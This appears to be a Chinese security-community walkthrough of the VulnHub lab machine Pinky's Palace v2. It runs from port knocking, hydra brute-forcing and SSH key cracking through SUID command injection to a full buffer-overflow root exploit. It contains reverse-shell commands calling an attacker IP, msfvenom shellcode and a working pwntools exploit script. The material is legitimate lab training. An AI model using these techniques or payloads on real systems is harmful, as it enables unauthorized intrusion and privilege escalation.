# Vulnhub靶机渗透总结之PinkysPalaceV2 - 先知社区

Vulnhub靶机渗透总结之PinkysPalaceV2

- - -

## 一、 基本信息：

PinkysPalaceV2，Vuluhub困难难度靶机。提权阶段枚举和信息收集能力才是考验。涉及到缓冲区溢出漏洞的识别、重现，定位eip、寄存器扩容、坏字节识别、jmp esp定位，payload生成等细节技术，从零开始手工编写漏洞利用代码，最后成功利用缓冲区漏洞获得系统root权限。标准的利用过程，期待对你有帮助。

| 名称  | 说明  |
| --- | --- |
| 靶机下载链接 | [Pinky's Palace: v2 ~ VulnHub](https://vulnhub.com/entry/pinkys-palace-v2,229/) |
| 作者  | [Pink\_Panther](https://vulnhub.com/author/pink_panther,577/) |
| 发布日期 | 18 Mar 2018 |
| 难度  | hard |
| 靶机  | ip：192.168.80.177 |
| 攻击机（kali） | ip：192.168.80.129 |

此外，该靶机需要绑定 hosts（192.168.80.177 pinkydb）让图片正常加载。

## 二、 信息收集

### 主机发现、端口扫描、服务枚举、脚本漏扫（nmap）

```plain
nmap 192.168.80.0/24 -sn --min-rate 1000
nmap 192.168.80.177 -sT -p- --min-rate 1000 -oA nmap_result/port_scan
nmap 192.168.80.177 -sU --top-ports 10 -oA nmap_resule/portudp_scan
nmap 192.168.80.177 -p $port -sT -sV -O -sC -oA nmap_result/server_info
nmap 192.168.80.177 -p $port --script=vuln -oA nmap_result/vuln_info

port=$(grep open nmap_result/port_scan.nmap|grep open|awk -F '/' '{print $1}'|paste -sd ',')
```

> 开放端口 tcp80，filtered状态应该是对端口做了隐藏  
> 80 Apache httpd 2.4.25  
> 4655/tcp filtered unknown  
> 7654/tcp filtered unknown  
> 31337/tcp filtered Elite

## 三、 Port 80 http

### 指纹识别（whatweb）

```plain
whatweb http://pinkydb
```

> WordPress\[4.9.4\],Title\[Pinky's Blog – Just another WordPress site\]  
> wordpress框架，从title信息猜测应该还有另外一个web站点

### 目录扫描（dirsearch、feroxbuster）

```plain
feroxbuster -u http://pinkydb/ -o feroxbuster_info.txt
gobuster dir -u http://pinkydb/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
```

[http://pinkydb](http://pinkydb/) 网站首页。提供了搜索、登录、评论功能。  
[http://pinkydb/wp-admin](http://pinkydb/wp-admin) 后台登录页，但目前没有效的凭证（通常是用户名和密码）来登录或访问相关资源。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224410-657326f0-a4c6-1.png)

[http://pingkydb/wp-includes](http://pingkydb/wp-includes) 文件列表，包含一些被引用的文件。

[http://pinkydb/wordpress/wp-admin/setup-config.php](http://pinkydb/wordpress/wp-admin/setup-config.php) wordpress初始化的搭建页面，但需要数据库连接相关信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224422-6c86d036-a4c6-1.png)

[http://pinkydb/secret](http://pinkydb/secret) 文件列表，一个文本文件 bambam.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224430-71078b96-a4c6-1.png)

[http://pinkydb/wordpress/wp-content/plugins/akismet/akismet.php](http://pinkydb/wordpress/wp-content/plugins/akismet/akismet.php) 页面提示“Hi there! I'm just a plugin, not much I can do when called directly.” 翻译为：什么也干不了

### wordpress 信息枚举（wpscan）

wordpress框架，未扫描到插件或主题信息，尝试用户名枚举。

```plain
wpscan --url http://pinkydb/ --enumerate u
```

> WordPress 4.9.4，用户 pinky1337

## 四、 端口碰撞（knock）

`/secret/bambam.txt` 记录的似乎是三个端口号信息，尝试port knocking [端口碰撞技术](https://zhuanlan.zhihu.com/p/210177505)，

1.  【8890,7000,666】排列组合有6种可能，可能性不多可以每个组合手工敲，这里使用py生成所有排列组合，编写脚本使用knock批量进行碰撞。
    
    ```plain
    python -c 'import itertools; print(list(itertools.permutations([8890,7000,666])))'|sed 's/),/\n/g'|tr -cd '0-9\n,'|tr ',' ' ' > knock_list.txt
    ```
    
2.  shell脚本批量处理
    
    ```plain
    //knock_assembly.sh
    #!/bin/bash
    while read -r line
    do
    echo '---------------'
    knock -v pinkydb $line
    done < ./knock_list.txt
    ```
    
3.  再次使用nmap进行端口扫描、服务枚举，先前filtered状态的三个端口已允许连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224439-76890d38-a4c6-1.png)

> 80/tcp open http Apache httpd 2.4.25  
> 4655/tcp open ssh OpenSSH 7.4p1  
> 7654/tcp open http nginx 1.10.3  
> 31337/tcp open Elite?  
> 端口7654为另一个web服务，验证了存在另一个站点的猜想。

## 五、 Port 31337 后门？

*31337* elite（ 3=E, 1=L, 7=T)。31337端口是meterpreter 的bindshell方式经常使用的端口，nc在测试时候会向这个端口发送请求，这个程序会回显输入的字符后关闭连接，不排除存在溢出的可能。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224447-7b1331bc-a4c6-1.png)

## 六、 Port 7654 http

[http://pinkydb:7654/login.php](http://pinkydb:7654/login.php) 登录页  
尝试：弱口令、sqli万能密码、手工注入测试、sqlmap均失败。  
账号密码错误会提示”Invalid Username or Password“（留意到此前80端口存在web站点，此站点后续可尝试构造社工字典进行密码爆破）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224454-7f82cb86-a4c6-1.png)

### 目录扫描（gobuster）

7654端口的web站点并未扫描到有价值信息

```plain
gobuster dir -u http:pinkydb:7654 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
```

### 社工字典、密码爆破（cewl、hydra）

cewl 生成单词列表作为密码字典 `cewl_pass.txt`，并基于已收集的信息构造简易的用户名字典`user_list`

```plain
cewl http://pinkydb/ -w cewl_pass.txt
cat cewl_pass.txt|sort -u|wc
```

hydra 对 [http://pinkydb:7654/login.php](http://pinkydb:7654/login.php) 表单进行暴力破解。

```plain
hydra -L user_list -P cewl_pass.txt pinkydb -s 7654 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid Username or Password"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224504-859a6fb0-a4c6-1.png)

> 拿到了一组登录凭据并成功登录网站。pinky:Passione

### web登录、ssh尝试

[http://pinkydb:7654/login.php](http://pinkydb:7654/login.php) 登录pinky用户的账号。  
观察url可以发现有个很明显的本地包含漏洞  
给了个私钥可下载，从文本内容中推测用户名为stefano  
使用该密钥ssh登录需输入密码。  
修改id\_rsa权限600，提示需要passphrase，此密钥需要密码才能使用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224513-8ac46ea0-a4c6-1.png)

### RSA hash破解（john）

ssh2john.py提取rsa的HASH信息，john破解

```plain
locate ssh2john.py
/usr/share/john/ssh2john.py id_rsa > hash_rsa
john --wordlist=/usr/share/wordlists/rockyou.txt hash_rsa
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224520-8f20a70c-a4c6-1.png)

> id\_rsa密钥密码 secretz101

## 七、 shell as user1 (SSH id\_rsa)

密钥密码secretz101

```plain
ssh stefano@192.168.80.177 -p 4655 -i id_rsa
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224528-93810dd2-a4c6-1.png)

> 拿到 stefano 用户权限

### 提权信息收集

`-rwsr----x 1 pinky www-data 13384 Mar 16 2018 qsub`  
qsub程序，所有者为pinky，属组为www-data（可能和网站有关），只有执行权限。 note.txt 提示该程序是pinky用户用于信息的发送

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224535-97d6cd5e-a4c6-1.png)

> 有三个用户pinky（uid1000）demon（uid1001）stefano（uid1002）  
> 两个web站点对应的数据库配置文件（/var/www/html/apache/wp-config.php）（/var/www/html/nginx/pinkydb/html/config.php）靶机本地开放了3306端口，mysql服务不是以高权限运行，可以本地登录数据库但意义不大。  
> 无值得注意的计划任务，没sudo权限，环境变量是常规路径  
> SUID可执行文件：/home/stefano/tools/qsub

### ELF文件分析（IDA64）

suid文件：qsub程序（ELF 64-bit）

```plain
file qsub
binwalk
strings qsub
```

导入IDA，按F5分析伪代码  
getenv()，获取环境变量信息  
strcmp(s, s2) ，比较两字符串，相等则返回0。[strcmp函数详解](https://blog.csdn.net/weixin_53564801/article/details/123730463)  
所以输入的密码为环境变量TERM的值，而后调用send函数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224548-9fcef23e-a4c6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224557-a53c1396-a4c6-1.png)

另外一提，suid bit 其实设置的是euid，不是uid。并不是真正意义上的pinky用户，只是程序运行时临时借用pinky权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224604-a954709a-a4c6-1.png)

## 八、 shell as user2（suid）

执行suid程序，拼接反弹shell语句，密码为环境变量$TERM的值xterm-256color，可以看到uid是1000。  
（测试过程中，这里如果拼接bash -p虽然可以保留euid，拿到pinky用户权限，可以cd切换目录但是输入命令会无后续回显。如果拼接反弹shell就正常了）

```plain
./qsub '&(nc 192.168.80.129 2211 -e /bin/bash)'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224617-b146fade-a4c6-1.png)

> 拿到pinky用户权限

### 提权信息收集

在历史命令中 `/home/pinky/bash_history`，发现编辑过`backup.sh`。  
`-rwxrwx--- 1 demon pinky 217 Oct 15 08:35 /usr/local/bin/backup.sh`  
backup.sh。所有者为demon，属组为pinky。但当前pinky用户属组为stefano。newgrp命令切换当前为pinky组即可编辑。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224625-b5c2a928-a4c6-1.png)

## 九、 shell as user3

留意到backup.sh可能是个自动备份程序，可以尝试写入反弹shell。这里尝试的是 `bash -p` ，记得输入bash调回系统原生bash，不然有些命令可能会报错  
编辑backup.sh，加入：

```plain
chmod ugo+x /tmp/bashshell
chmod u+s /tmp/bashshell
```

```plain
/bashshell -p
bash
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224632-ba193172-a4c6-1.png)

> 拿到demon用户权限

### 提权信息收集

进程中发现了root权限运行的/daemon/panel。既然是root身份运行，如果存在溢出即可利用获得root的shell

```plain
ps aux | grep root
find / -name 'panel' 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224640-be73b3fa-a4c6-1.png)

nc传到本地分析

```plain
nc -lvp 8080 >panel
nc 192.168.80.129 8080 <panel
```

### ELF文件分析（IDA64）

panel程序（ELF 64-bit）

```plain
file panel
binwalk panel
strings panel
```

导入IDA，按F5分析伪代码  
v8是消息内容，放到变量buf，可接收的最大长度是1000。而后把buf传递给handlecmd函数  
handlecmd里定义了字符串长度空间为112，调用了strcpy，但strcpy函数复制时没考虑长度，是全复制，就可能导致栈溢出。  
基于上述分析，理论上112个就能填满空间，再加一字节长（64位的程序就是8个随机字符），后面跟的是返回地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224648-c35ffa04-a4c6-1.png)

从伪代码中可以看到send()发送的消息为信息收集时nc监听靶机31337端口时的回显。kali中运行该程序会开启端口31337，看来靶机上启动的31337端口运行就是这个程序。

## 十、 shell as root

利用root权限运行的panel程序（ELF 64-bit）栈溢出漏洞进行提权，相关测试放在了文中的其他尝试，直接放最后的payload。  
shellcode是使用msfvenom构建shell\_reverse\_tcp

```plain
//shell3322
from pwn import *

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31"
buf += b"\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26"
buf += b"\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1"
buf += b"\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d"
buf += b"\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69"
buf += b"\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45"
buf += b"\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66"
buf += b"\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90"

ret = p64(0x400cfb)
#ret = "\xfb\x0c\x40\x00"
print (ret)
payload = buf + ret

r = remote("192.168.80.177", 31337)
r.recv()
r.send(payload)
print("ok")
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224657-c898ee68-a4c6-1.png)

> 成功拿到root权限并获取flag

## 十一、 其他尝试

### 1）端口碰撞（nmap）

使用 [敲击相关方式汇总](https://www.cnblogs.com/autopwn/p/13787264.html)给的脚本，用nmap敲击

```plain
python -c 'import itertools; print list(itertools.permutations([666,7000,8890]))' | sed 's/), /\n/g' | tr -cd '0-9,\n' | sort | uniq > permutation.txt

./nmap_assembly.sh pinkydb
```

```plain
//nmap_assembly.sh
#!/bin/bash
TARGET=$1
for ports in $(cat permutation.txt); do
    echo "[*] Trying sequence $ports..."
    for p in $(echo $ports | tr ',' ' '); do
        nmap -n -v0 -Pn --max-retries 0 -p $p $TARGET
    done
    sleep 3
    nmap -n -v -Pn -p 1-10000 -A --reason $TARGET -oN ${ports}.txt
done

//permutation.txt
666,7000,8890
666,8890,7000
7000,666,8890
7000,8890,666
8890,666,7000
8890,7000,666
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224707-ce90700c-a4c6-1.png)

### 2）文件包含漏洞

7654端口的网站存在文件包含漏洞，利用该漏洞，将qsub程序拿到本地分析。文末的其他尝试有该文件的分析。  
（期间尝试了python开http服务但下载是返回404，nc和scp传输也是不行，file命令和stings命令靶机上也无法使用。）

```plain
wget http://pinkydb:7654/pageegap.php?1337=../../../../../../../home/stefano/tools/qsub -O qsub
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224714-d2c11b04-a4c6-1.png)

### 3）栈溢出深入探索

panel程序（ELF 64-bit），未开启防护

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224721-d6f95006-a4c6-1.png)

#### 3.1 可能会遇到的问题

<1>在gdb运行该程序，(gdb) run 第一次连接正常，但第二次(gdb) run 会报错`[-] binding to socket`，每次再次调试都得`killall panel`关掉进程再运行成才行，极不方便。

<2>经过测试发现，每次nc连接输入后，程序会再次创建一个子进程。gdb默认跟踪的是父进程，会看不到子进程的具体内容。所以让gdb跟踪子进程，再将父进程设置为暂停状态，就不用反复关进程了

```plain
set follow-fork-mode child
set detach-on-fork off
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224729-dbdf8aea-a4c6-1.png)

<3>这里我的gdb配置了插件，方便调试。[gdb+peda](https://blog.csdn.net/Bossfrank/article/details/130213456) ，[gdb+pwndbg](https://blog.csdn.net/zzzhang_num_1/article/details/130361097)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224746-e5fea9b6-a4c6-1.png)

#### 3.2 溢出判断

首先得了解RSP RBP RIP之间的调用，参考 [函数调用栈分析 - 知乎](https://zhuanlan.zhihu.com/p/376988726)  
500个A，可以看到segfault段错误是：► 0x4009aa <handlecmd+70> ret <0x4141414141414141>，错误的位置在即将执行的程序指令的地址0x4009aa

```plain
echo $(python2 -c 'print "A" * 500') | nc localhost 31337
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224754-eaa305ac-a4c6-1.png)

#### 3.3 位置查找

也不知道第几个A开始就报错，使用pattern\_create.rb生成500个，再使用pattern\_offset.rb定位  
从结果中可以知道：

1.  前面120个字符之后就开始覆盖RIP了
2.  栈能存112

```plain
locate pattern_create.rb
pattern_create.rb -l 500

pattern_offset.rb -q Ae0A
pattern_offset.rb -q d7Ad

echo '生成的500字符' | | nc localhost 31337
```

```plain
//结果
 RBP  0x3964413864413764 ('d7Ad8Ad9')
 RSP  0x7fffffffd0d8 ◂— 0x6541316541306541 ('Ae0Ae1Ae')
 RIP  0x4009aa (handlecmd+70) ◂— ret
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224805-f156bf10-a4c6-1.png)

#### 3.4 验证

112个A 程序正常运行

```plain
echo $(python2 -c 'print "A" * 112') | nc localhost 31337
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224812-f53dd672-a4c6-1.png)

112个A + 1个B。程序崩溃

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 1') | nc localhost 31337
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224818-f9377580-a4c6-1.png)

112个A+8个B。填充满RBP需要+8个字符

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 8') | nc localhost 31337
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224825-fd6db182-a4c6-1.png)

112个A+8个B+4个C。RIP地址可以被4个C覆盖

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 8 + "C" * 4') | nc localhost 31337
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224831-0122a8a0-a4c7-1.png)

112个A+8个B+6个C，程序崩溃。RIP地址最多可以被4个C覆盖

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 8 + "C" * 4') | nc localhost 31337
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224838-051a3b44-a4c7-1.png)

从结果中可以知道：

1.  栈能存112
2.  填充满RBP需要+8个字符
3.  120个，没有影响到返回地址。覆盖rip寄存器需要在120处开始，且最多只能覆盖4个字节

#### 3.5 shellcode位置分析

方向：需要去找到一个可以调用完整的shellcode的地址  
1）进行函数调用时会先把返回地址放到栈里  
2）当函数调用完会根据返回地址回到原本的地方  
3）所以所返回地址是个可以执行的地方  
4）如果让返回地址指向一个去的地方（放了shellcode的地方），那么他就会执行这个地方的东西（所以可以找有无call rsp或者jmp rsp的指令）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224941-2a68c456-a4c7-1.png)

（call, 执行函数调用. 当 CPU 执行 call 指令时, 首先会把 rip 寄存器的值入栈, 然后设置 rip 值为目标地址, 由于 rip 寄存 器的值决定了下一条CPU需要执行指令的位置, 所以当 CPU 执行完成当前 call 指令后就会跳转到目标地址。）  
地址0x400cfb会跳转到rsp位置，地址长度三个字节，满足之前测试的RIP最多只能覆盖4个字节的要求

#### 3.6 shellcode构造、生成

1.  使用msfvenom构建shell\_reverse\_tcp，生成大小为119
2.  基于112个A+8个B+4个C的分析，【shellcode】+【填充字符】+【return\_rsp】 = 124
3.  此外，这个程序使用strcpy来触发溢出，所以shellcode里不能含有null字符 \\x00，不然会截断。
4.  注意：地址0x400cfb 要倒过来写，不足8位用0补齐到8位为止。

```plain
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=192.168.80.129 LPORT=3311 -b '\x00' -f python -o shell3333

cat shell3333 |awk -F ' b' '{print $2}'|tr -d '\n"'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224847-0a9484e4-a4c7-1.png)

```plain
[shellcode] + [\x90] + [\xfb\x0c\x40\x00]
=> 119 + 1 + 4 

//最后结果：拼接 [\x90] 和 [\xfb\x0c\x40\x00]
\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90\xfb\x0c\x40\x00
```

#### 3.7 测试反弹

RIP地址变为了我们构建的：xfb\\x0c\\x40\\x00（地址0x400cfb会跳转到RSP位置）,RSP位置放的是120字符长度的shellcode

```plain
echo '\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90\xfb\x0c\x40\x00' | nc localhost 31337
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224856-0fcadb0c-a4c7-1.png)

> kali本地测试中能监听到反弹

#### 3.8 编写python脚本

要安装python中的pwn包。[参考](https://blog.csdn.net/qq_52553510/article/details/122475088)

```plain
//shell3322
from pwn import *

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31"
buf += b"\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26"
buf += b"\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1"
buf += b"\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d"
buf += b"\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69"
buf += b"\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45"
buf += b"\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66"
buf += b"\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90"

ret = p64(0x400cfb)
#ret = "\xfb\x0c\x40\x00"
print (ret)
payload = buf + ret

r = remote("127.0.0.1", 31337)
r.recv()
r.send(payload)
print("ok")
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231227224908-16a3cce0-a4c7-1.png)

> kali中本地测试时成功收到反弹，则放到靶机上尝试  
> r = remote("127.0.0.1", 31337)改为目标ip

## 总结

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142620-03bb0fca-a54a-1.png)

1.  通过端口扫描，发现目标开放了一个端口80与三个filtered状态端口。先从Apache搭建的网站层面入手。
2.  首先是端口80，在目录扫描与指纹识别的结果中，发现网站为`WordPress`搭建，利用wpscan工具枚举到一个用户名`pinky1337`。从`/secret` 获取到一个文本`bambam.txt`，留意到记录的可能是三个端口信息，利用端口碰撞技术，成功访问三个filtered状态端口。
3.  端口7654为Nginx搭建的网站，是个登录页面。尝试了sql注入失败了，此时我可以寻找相关协议服务的漏洞，说不定自机器出现以来有新的漏洞产生。
4.  在此之前，联到端口80的web站点提示说还有另一个站点，可以尝试使用枚举爆破。使用`cewl`生成密码字典，简单进行去重处理后，使用`hydra`对端口7654的登录表单进行爆破，成功拿到的网站登录凭据`pinky:Passione`。
5.  登录网站，拿到了一个用于ssh登录的`私钥`，但此私钥需要密码才能登录。使用john解密私钥的hash信息拿到密码，成功ssh登录stefano用户，获得初始立足点。
    
6.  提权阶段
    
7.  stefano用户，家目录中发现了suid可执行文件`qsub`，简单分析程序逻辑后，得知密码应为环境变量`$TERM`的值，注入命令拼接反弹shell语句，成功拿pinky用户权限，完成了水平升级再次获得系统立足点
8.  pinky用户，在历史命令记录中，发现了网站备份程序 `backup.sh`。使用newgrp命令切换为pinky组后成功编辑`backup.sh`，写入bash提权相关语句。等待一段时间后执行`bash -p`，成功拿到demon用户权限，再次获得系统立足点
9.  demon用户，系统进程中存在以root身份运行的程序`panel`，运行在31337端口，拿到本地进行分析后发现存在溢出，使用msfvenom构建`shell_reverse_tcp`，利用溢出漏洞成功拿到root权限并获取flag。至此靶机渗透结束。

## 技巧

1.  使用gdb调试的时候，gdb只能跟踪一个进程。可以在fork函数调用之前，通过指令设置gdb调试工具跟踪父进程或子进程。默认情况下gdb是跟踪父进程的。
2.  show follow-fork-mode : 查看目前的跟踪模式。
3.  set follow-fork-mode child : 命令设置gdb在fork之后跟踪子进程。
4.  set follow-fork-mode parent : 设置跟踪父进程。
5.  show detach-on-fork : 显示了目前是的detach-on-fork模式
6.  set detach-on-fork on : 只调试父进程或子进程的其中一个(根据follow-fork-mode来决定)，这是默认的模式。
7.  set detach-on-fork off : 父子进程都在gdb的控制之下，其中一个进程正常调试(根据follow-fork-mode来决定),另一个进程会被设置为暂停状态。

1.  端口碰撞： 端口试探(pork knocking)是一种通过连接尝试,从外部打开原先关闭端口的方法 一旦收到正确顺序的连接尝试,防火墙就会动态打开一些特定的端口给允许尝试连接的主机，可以利用这个端口试探的方式来进行防火墙对于访问ip控制。要注意避免误伤、避免过度扫描和确保合法授权等问题。
    
2.  目录扫描：这台靶机中，目录扫描事实上是一个很关键的点，如果你只用一个目录爆破工具、或说只理解一个爆破工具的原理、或它扫描机制是不够的，很可能会错过一些，当然我相信通过gobuster的具体配置比如指定-x参数等一些设置，应该是也能有一些新的发现。但是你能 想到用不同的工具，因为背后的算法不一样可能会有不同的发现这一点其实很关键，目录爆破就是这样，能发现他就是一条路一个口子，如果不能发现或者更悲催的是这条路就是可能的渗透成功之路吗，没发现就不能往后走。
    
3.  这台靶机现在的攻击路径场景并不复杂，借这台机器我们尝试手工对动态目录攻击路径进行枚举时需要用到哪些命令，思考哪些方式。
    
4.  这篇博客更多的意义是记录我个人在学习过程中的知识。由于笔者水平有限，本文的写作多借鉴于以下 文章，但也不乏创新思路点。对于权限提升的技巧，勉强达到靶机要求的合格水平，各位若有其他新颖独特的思路，还望不吝赐教，多多交流。
    

参考学习：  
[Pinky's Palace: v2 walkthrough · 5p4d37's Blog](https://d.oulove.me/2019/06/28/Pinky-s-Palace-v2-walkthrough/)  
[VulnHub-Pinky’s Palace: v2-靶机渗透学习 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/261184.html)  
[函数调用栈分析 - 知乎](https://zhuanlan.zhihu.com/p/376988726)  
[栈溢出例子](https://blog.csdn.net/bitsec/article/details/81026447)  
[靶机-敲击相关方式汇总 - 皇帽讲绿帽带法技巧 - 博客园](https://www.cnblogs.com/autopwn/p/13787264.html)  
[shellcode仓库](http://shell-storm.org/shellcode/index.html)
